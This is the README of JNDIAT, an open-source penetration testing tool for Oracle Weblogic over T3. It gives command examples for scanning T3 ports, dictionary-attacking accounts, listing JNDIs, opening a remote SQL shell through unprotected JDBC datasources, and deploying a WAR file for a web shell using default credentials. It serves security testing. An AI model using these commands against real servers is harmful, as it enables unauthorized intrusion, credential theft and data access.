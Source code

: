 | __Quentin HARDY__    |
| ------------- |
| __quentin.hardy@protonmail.com__  |
| __quentin.hardy@bt.com__    |

# JNDIAT - JNDI Attacking Tool

**JNDIAT** (**JNDI** **A**ttacking **T**ool) is an open source penetration testing tool that tests the security of **Weblogic** servers **through T3 protocol**.

Usage examples of JNDIAT:
* You want to search if there are Weblogic **ports which are accessible through T3 protocol**, over SSL/TLS or not;
* You want to **search valid accounts** remotely in order to have a privileged connection;
* You want to list **JNDIs (Java Naming and Directory Interface) which are accessible** to know what you can do on the remote Weblogic server (without or with a Weblogic account);
* You want to **use a unprotected (i.e. 'public') JDBC datasource** in order to get a remote interactive SQL shell;
* You want to **deploy an application** (e.g. War) on the Weblogic server in order to have a Web shell (account required).

Tested on Oracle Weblogic 12 and Java JRE 8 ([Official Download Link](https://www.java.com/en/download/manual.jsp)) for JNIDAT 2.0 version.
Tested on Oracle Weblogic 11 and Java JRE 8 for JNIDAT 1.0 version.

**Notices**: 
* If you have problems to connect to older Weblogic server with jnidat v2.0, you should try the JNDIAT v1.0. Indeed, jndiat 2.0 use weblogic v12 libraries. jndiat 1.0 uses older weblogic libraries.
* Don't use OpenJDK for running Jnidat jar file.

# Changelog

+ Version **2.00 (2022/07/11)** :
  + SSL bug fix for new versions of Weblogic. Older jndiat version was not able to connect to lastest versions of Weblogic over TLS.
+ Version **1.00 (2021/06/11)** :
  + bug fix when can not list bindings
+ Version **0.01 (2018/11/31)** :
  + first version.
 
# Features

+ Supports **T3** and **T3s** (**T3 over SSL**) connections. JNDIAT creates a local temporary Java KeyStore to validate the Weblogic server's certificate;
+ Supports authentication with **empty credentials** ie login='' and password=''. Public JDBC datasources can be used with an empty account by default in Weblogic (tested on version11);
+ Supports targets if the weblogic is in a domain;
+ **Detects ports** accessible through T3 protocol;
+ **Finds valid credentials** through dictionary attacks;
+ Gets **JNDIs list accessible** with a specific account (or without account);
+ Gets a **remote sql shell** via a JDBC datasource;
+ With a privileged account, you can **deploy an application** on the weblogic server in order to have a Web shell for example.


# Usage examples

Download latest release of jndiat [https://github.com/quentinhardy/jndiat/releases](https://github.com/quentinhardy/jndiat/releases)

## Main help

```bash
java -jar Jndiat.jar -h
```

## JNDIAT version

```bash
java -jar Jndiat.jar --version
```

## Scan ports
This module should be used for scanning ports accessible through T3 (or T3s) protocol in order to get JNDIs.

To know if you can use the port 7001 to establish a T3 connection:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports 7001
```

To scan ports 7001 and 7002:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001,7002'
```

To scan ports from 7001 to 7010:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001-7010'
```

## List of JNDIs
This module should be used to get the list of JNDIs accessible trough the T3 protocol.
This module is useful in order to know if some JNDI are accessible without authentication (ex: a 'public' JDBC datasource).

To get JNDIs accessible on port 7001 of the server 192.168.56.101:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001
```

If you not specify credentials in the command line, the tool will returns JNDIs accessible without authentication.
If you know valid credentials, you can use it to get more JNDIs:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001 -U username -P password
```

## JDBC DataSource
This module allows you to get a remote SQL shell via a JDBC datasource.

To get an interactive SQL shell from a JNDI datasource:

```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell
```

The tool will ask you the JDBC datasource to use. 
If you know the datasource name, you can specify it:
```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell --datasource='jdbc/myDataSource'
```

## Deploy an application

Thanks to this module, you can deploy an application (e.g. .war, .ear) in the remote Weblogic server through the T3 protocol.
To use this module, you may have high privileges (and an account of course).

The following command deploys the application 'cmd.war' on the remote weblogic server.

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file cmd.war
```

To undeploy the previous war ('cmd.war') from the remote weblogic server:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy
```

To change the application name deployed on the weblogic server, the *--display-name* option must be used:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file 'cmd.war' --display-name 'appli-name-displayed'
```

To undeploy a specific application named *appli-name-displayed*:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy --display-name 'appli-name-displayed'
```

Special thanks
====
apache ant 1.10.12 and Java JDK 8 has been used for generating jnidat 2.0 jar file.

Special thanks
====
Special thanks to some previous BT pentesters (e.g. @gno) for the initial work.

Donation
====
If you want to support my work doing a donation, I will appreciate a lot:

* Via BTC: 36FugL6SnFrFfbVXRPcJATK9GsXEY6mJbf
